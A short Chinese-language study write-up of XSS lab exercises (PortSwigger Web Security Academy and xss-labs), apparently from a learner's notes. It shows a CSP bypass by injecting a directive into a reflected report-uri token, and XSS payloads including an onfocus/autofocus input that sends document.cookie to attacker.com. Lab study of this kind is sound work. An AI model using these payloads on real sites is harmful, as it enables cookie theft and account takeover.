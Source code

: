 在console发现是CSP限制，响应标头中存在：

```
content-security-policy:
default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

发型最后有一个token参数，于是FUZZ一下：

```
https://0ac5000104d97c628064d07c003d00b9.web-security-academy.net/?search=payload&token=123
```

响应：

```
default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=123
```

可以控制，那么只需要把这个token传：

```
;script-src-elem 'unsafe-inline'
```

就能绕过CSP了

## 三、xss-labs

### 1、input标签 onfocus + autofocus自动触发

```
<input 
  value="" 
  onfocus="fetch('https://attacker.com?cookie='+document.cookie)" 
  autofocus
>
注意：
<input onfocus="prompt()" autofocus>不行
必须：
<input onfocus="prompt()" autofocus空格/换行/=1>
```

### 2、使用"还是'闭合得从响应的源码看

源码：

```
<input name=keyword  value='' onfocus='alert()''>	
```

Element:

```
<input name="keyword" value="" onfocus="alert()" '=""> //一般element的都是双引号
```
